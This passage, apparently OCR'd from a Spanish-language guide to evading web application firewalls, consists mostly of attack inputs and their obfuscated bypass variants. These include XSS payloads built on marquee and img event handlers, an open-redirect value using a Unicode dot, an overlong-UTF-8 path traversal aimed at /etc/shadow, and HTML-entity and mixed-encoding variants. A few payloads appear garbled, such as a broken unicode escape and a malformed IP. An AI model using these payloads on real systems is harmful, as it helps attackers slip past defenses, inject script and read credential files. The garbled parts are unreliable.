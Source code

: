 > <marquee onstart=\u0070r\u06f\u006dpt()>

**Bloqueado por WAF:**

> /?redir=http://google.com

**Técnica omitida:**

> /?redir=http://google。com (Unicode alternative)

**Bloqueado por WAF:**

> <marquee loop=1 onfinish=alert()>x

**Técnica omitida:**

> ＜marquee loop＝1 onfinish＝alert︵1)>x (Unicode alternative)

**Solicitud básica:**

> ../../etc/shadow

**Ofuscado:**

> %C0AE%C0AE%C0AF%C0AE%C0AE%C0AFetc%C0AFshadow

### **4. Técnica de representación HTML**

Las aplicaciones web codifican caracteres especiales en HTML. Codificarlos y renderizarlos en consecuencia. Casos de bypass básicos con codificación HTML numérica y genérica.

**Solicitud básica:**

> "><img src=x onerror=confirm()>

**Carga útil codificada:**

> &quot;&gt;&lt;img src=x onerror=confirm&lpar;&rpar;&gt;

**Carga útil codificada:**

> &#34;&#62;&#60;img src=x onerror=confirm&#40;&#41;&#62;

### **5. Técnica de codificación mixta**

Estas reglas suelen tender a filtrar un tipo específico de codificación. Estos filtros pueden evitarse mediante cargas útiles de codificación mixta. Nuevas líneas y tabulaciones y se agregan más a la ofuscación.

**Ofuscar carga útil:**

> <A HREF="h
> 
> 
> tt p://6 6.000146.0x7.147/">XSS</A>
> 

### **6. Uso de la técnica de comentarios**

Los comentarios ofuscan los vectores de carga útil estándar. Diferentes cargas útiles tienen diferentes formas de ofuscarse.
